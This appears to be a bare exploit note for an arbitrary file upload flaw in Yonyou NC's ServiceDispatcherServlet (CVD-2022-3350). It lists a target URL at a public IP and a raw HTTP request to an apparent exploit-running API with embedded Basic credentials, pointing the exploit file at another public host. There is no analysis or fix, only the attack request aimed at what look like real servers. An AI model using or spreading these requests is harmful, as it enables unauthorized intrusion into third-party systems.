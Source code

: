 # 用友 NC ServiceDispatcherServlet 任意文件上传漏洞

    Yonyou NC ServiceDispatcherServlet Arbitrary File Upload Vulnerability

## CVD-2022-3350

```
http://218.17.49.60:8084/ServiceDispatcherServlet
```

```
POST /api/v1/debugExp HTTP/1.1
Content-Type: application/json;charset=UTF-8
Authorization: Basic dXNlcjpwYXNz
host: 82.156.29.211:8365
Connection: close
Content-Length: 83

{"hostinfo":"http://61.163.121.214:65","vulfile":"CVD-2022-3350.go","expparams":{}}
```
